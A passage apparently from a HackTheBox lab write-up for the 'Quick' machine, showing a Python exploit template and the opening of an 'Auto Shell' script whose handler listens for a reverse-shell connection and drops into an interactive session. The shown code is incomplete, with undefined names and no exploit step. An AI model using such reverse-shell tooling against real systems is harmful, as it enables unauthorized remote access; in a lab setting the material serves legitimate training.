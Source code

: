 ```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-17-HackTheBox-Quick/2021-10-17-HackTheBox-Quick%2001:52:06.png)

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Shell - Quick - HackTheBox

import argparse
import requests
import sys
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread
import os
import random

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    cleanUp(nameone,nametwo,nameshell)
    print("[+] Shell'd [+]")
    t.interact()
```